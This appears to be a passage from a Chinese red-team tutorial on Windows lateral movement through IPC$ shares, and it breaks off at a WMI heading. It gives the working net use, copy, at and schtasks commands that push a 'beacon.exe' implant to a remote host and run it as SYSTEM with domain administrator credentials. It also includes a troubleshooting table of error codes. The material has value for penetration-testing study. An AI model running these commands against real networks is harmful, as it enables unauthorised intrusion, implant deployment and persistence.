 IPC横向

IPC是专用管道，可以实现对远程计算机的访问，需要使用目标系统用户的账号密码，使用139、445端口。
利用流程：
1、建立IPC链接到目标主机
2、拷贝要执行的命令脚本到目标主机
3、查看目标时间，创建计划任务（at<2012、schtasks>2012）定时执行拷贝到的脚本
4、删除IPC链接
Windows2012以下系统可使用at命令创建计划任务执行木马上线
Default
# 建立ipc连接：
net use \\192.168.3.21\ipc$ "admin!@#45" /user:god.org\ad
ministrator 
#拷贝执行文件到目标机器
copy beacon.exe \\192.168.3.21\c$  
#添加计划任务
at \\192.168.3.21 15:47 c:\beacon.exe
Windows2012以上系统使用schtasks命令创建计划任务执行木马上线
Default
# 建立ipc连接：
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator 
#复制文件到其C盘
copy beacon.exe \\192.168.3.32\c$ 
#创beacon任务对应执行文件
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\beacon.exe /F 
#运行beacon任务
schtasks /run /s 192.168.3.32 /tn beacon /i 
#删除beacon任务
schtasks /delete /s 192.168.3.21 /tn beacon /f
常见问题:
Default
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
建立IPC失败的原因:
Default
（a）目标系统不是NT或以上的操作系统
（b）对方没有打开IPC$共享
（c）对方未开启139、445端口，或者被防火墙屏蔽
（d）输出命令、账号密码有错误

WMI横向
